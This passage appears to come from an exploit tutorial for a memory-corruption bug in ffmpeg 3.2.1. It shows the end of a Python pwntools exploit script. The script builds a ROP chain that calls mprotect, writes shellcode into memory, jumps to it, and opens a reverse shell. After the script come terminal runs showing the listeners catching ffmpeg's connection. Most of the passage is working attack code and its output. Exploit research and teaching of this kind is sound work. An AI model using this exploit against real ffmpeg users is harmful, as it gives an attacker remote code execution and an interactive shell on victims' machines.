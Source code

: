 ```python
    payload += p64(mprotect_prot)
    payload += p64(mprotect_plt)     # Run the mprotect function

    # Write the shellcode into our newly mprotected segment
    payload += generate_mov(mprotect_segment, shellcode)

    # Jump to shellcode
    payload += p64(mprotect_segment)

    # Send the entire payload
    log.info("Payload sent!")
    p.send(payload)

    # Close the socket to terminate the read on the ffmpeg end to process the
    # shellcode
    p.close()

    # Wait for reverse shell
    log.info("Please wait for your reverse shell.")
    rev.wait_for_connection()
    log.success("Success! Enjoy your shell!")
    rev.interactive()


if __name__ == '__main__':
    main()
```

To demonstrate that it works we will run the `exploit.py` script on one terminal
to set up the listeners that will deliver the payload and to receive the reverse
shell.

```shell
$ python exploit.py
[+] Trying to bind to 0.0.0.0 on port 12345: Done
[+] Waiting for connections on 0.0.0.0:12345: Got connection from 127.0.0.1 on
    port 59164
[+] Trying to bind to 0.0.0.0 on port 1337: Done
[+] Waiting for connections on 0.0.0.0:1337: Got connection from 127.0.0.1 on
    port 44406
[*] Waiting for the victim...
```

On another terminal, we will run `ffmpeg` with parameters to connect to our
listener.

```shell
$ ./ffmpeg_debug -i http://127.0.0.1:12345 test.avi
ffmpeg version 3.2.1 Copyright (c) 2000-2016 the FFmpeg developers
  built with gcc 5.4.0 (Ubuntu 5.4.0-6ubuntu1~16.04.4) 20160609
  configuration: --prefix=/home/ubuntu/ffmpeg_build
  --bindir=/home/ubuntu/ffmpeg_bin --disable-stripping
  libavutil      55. 34.100 / 55. 34.100
  libavcodec     57. 64.101 / 57. 64.101
  libavformat    57. 56.100 / 57. 56.100
  libavdevice    57.  1.100 / 57.  1.100
  libavfilter     6. 65.100 /  6. 65.100
  libswscale      4.  2.100 /  4.  2.100
  libswresample   2.  3.100 /  2.  3.100
```
